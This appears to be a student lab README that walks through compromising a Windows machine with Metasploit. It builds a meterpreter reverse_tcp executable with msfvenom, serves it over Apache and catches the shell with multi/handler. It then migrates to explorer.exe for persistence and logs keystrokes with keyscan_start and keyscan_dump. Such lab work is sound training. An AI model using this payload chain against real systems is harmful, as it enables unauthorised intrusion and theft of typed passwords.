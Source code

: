 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig
![image](https://github.com/vithyasenthilkumar/Compromising-windows-using-Metasploit/assets/127177445/6e11e35c-4c2c-4b7f-b903-58b1582a464b)
Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
![image](https://github.com/vithyasenthilkumar/Compromising-windows-using-Metasploit/assets/127177445/dec59a23-57c8-45d3-8dd5-0a544aa51bac)
copy the fun.exe into the apache /var/www/html folder
![image](https://github.com/vithyasenthilkumar/Compromising-windows-using-Metasploit/assets/127177445/80180526-7555-4508-a89c-53d41ade25f3)
Start apache server sudo systemctl apache2 start
![image](https://github.com/vithyasenthilkumar/Compromising-windows-using-Metasploit/assets/127177445/d37aa8bf-5f56-4880-b314-22aa36443787)
Check the status of apache2
![image](https://github.com/vithyasenthilkumar/Compromising-windows-using-Metasploit/assets/127177445/10180e97-3b84-48d5-9be2-b392e79b2b61)
Invoke msfconsole:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
![image](https://github.com/vithyasenthilkumar/Compromising-windows-using-Metasploit/assets/127177445/64c0064a-0cd1-46bd-8381-5a6c8407e861)
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. 
![image](https://github.com/vithyasenthilkumar/Compromising-windows-using-Metasploit/assets/127177445/10b0f12b-e41d-46cb-a1c3-47abd997e0e1)
Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![image](https://github.com/vithyasenthilkumar/Compromising-windows-using-Metasploit/assets/127177445/e16657d8-97f0-4a64-9b98-546a435c48c2)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted
![image](https://github.com/vithyasenthilkumar/Compromising-windows-using-Metasploit/assets/127177445/5a5b5d17-af40-4da3-94e2-7b3ab0cfa3a6)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/vithyasenthilkumar/Compromising-windows-using-Metasploit/assets/127177445/a67b30ad-fd96-400f-9c73-37a5700ba5eb)
keyscan_dump Shows the keystrokes captured so far 
![image](https://github.com/vithyasenthilkumar/Compromising-windows-using-Metasploit/assets/127177445/f98298f8-2a9e-40be-a395-6222ac594da5)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
